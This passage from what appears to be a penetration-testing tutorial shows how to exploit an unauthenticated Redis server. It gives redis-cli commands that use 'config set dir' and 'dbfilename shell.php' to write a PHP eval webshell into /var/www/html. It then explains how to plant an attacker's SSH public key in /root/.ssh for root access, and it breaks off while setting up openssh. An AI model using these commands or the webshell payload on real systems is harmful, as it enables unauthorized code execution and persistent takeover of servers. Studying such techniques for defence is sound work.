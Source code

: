 How to use:
 - Set `dir` to the `/var/www/html` directory, set the specified local database storage directory to `/var/www/html`, set `dbfilename` to the file name `shell.php`, that is, specify the local database file name `shell.php`, and then execute `save` or `bgsave`, then you can write a `Webshell` file with the path `/var/www/html/shell.php`.

Operation steps:

```bash
config set dir /var/www/html/
config set dbfilename shell.php
set xxx "\r\n\r\n<?php eval($_POST[h3]);?>\r\n\r\n" // Write to the file with redis will bring some version information. If you do not wrap the line, it may cause it to fail to execute
save
```

<div align=center><img src="./images/6.png"></div>

View `/var/www/html`, successfully write `Webshell`.

<div align=center><img src="./images/7.png"></div>

<div align=center><img src="./images/8.png"></div>

### Write SSH public key with Redis
Conditions of use:
 - The `Redis` connection on the server is unauthorized. You can use `redis-cli` to log in directly on the attack machine, and no login verification is set.
 - The server has the `.ssh` directory and has write permissions.

Utilization principle:
 - Insert a data into the database, use the local public key as `value` and `key` value at will. Then, by modifying the default path of the database to `/root/.ssh` and the default buffered file `authorized.keys`, save the buffered data in the file, so that an authorized `key` can be generated under `/root/.ssh` on the server side.

Operation steps:

 - Install the `openssh` service.
```bash
# Install openssh service
sudo apt-get install openssh-server
# Start the ssh service
sudo /etc/init.d/ssh start
# Configure root user connection permissions
sudo mousepad /etc/ssh/sshd_config
PermitRootLogin yes
# Settings allow password-free login
AuthorizedKeysFile .ssh/authorized_keys .ssh/authorized_keys2
# Restart the ssh service
sudo /etc/init.d/ssh restart
```

<div align=center><img src="./images/9.png"></div>
